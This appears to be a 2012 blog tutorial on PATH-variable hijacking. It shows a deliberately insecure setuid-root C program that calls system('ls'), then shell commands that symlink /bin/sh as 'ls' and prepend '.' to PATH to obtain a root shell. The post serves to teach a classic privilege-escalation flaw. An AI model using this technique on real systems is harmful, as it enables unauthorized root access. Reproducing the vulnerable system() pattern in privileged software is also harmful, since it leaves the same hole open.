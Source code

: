 ```yaml
---
date: 2012-03-27
title: Exploiting environment variables
author: Alexandru Juncu
tags: exploit, PATH
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

<!--more-->

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

    $ cat ./ls
    echo P0wn3d
    $ ls
    file1 file2
    $ ./ls
    P0wn3d
    $ export PATH=.:$PATH
    $ ls
    P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
`SUID` bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the `SUID` is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


~~~ cpp
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
~~~

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

    $ ls -la /bin/ls_root
    -rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

    $ cd /root
    $ ls
    ls: cannot open directory .: Permission denied
    $ sudo ls
    test
    $ ls_root
    test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

    $ ln -s /bin/sh ls
    $ echo $$
    32655
    $ ls
    ls  ls_root.c
    $ ./ls
    $ echo $$
    32730
    $ whoami
    alexj
    $ exit
    $ export PATH=.:$PATH
    $ ls_root
    # whoami
    root
    #

The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the `SUID` bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The `SUID` is something that is used in Linux systems (`sudo` and even `ping`
use it), but these executables are very carefully implemented so that normal
users can't exploit them.
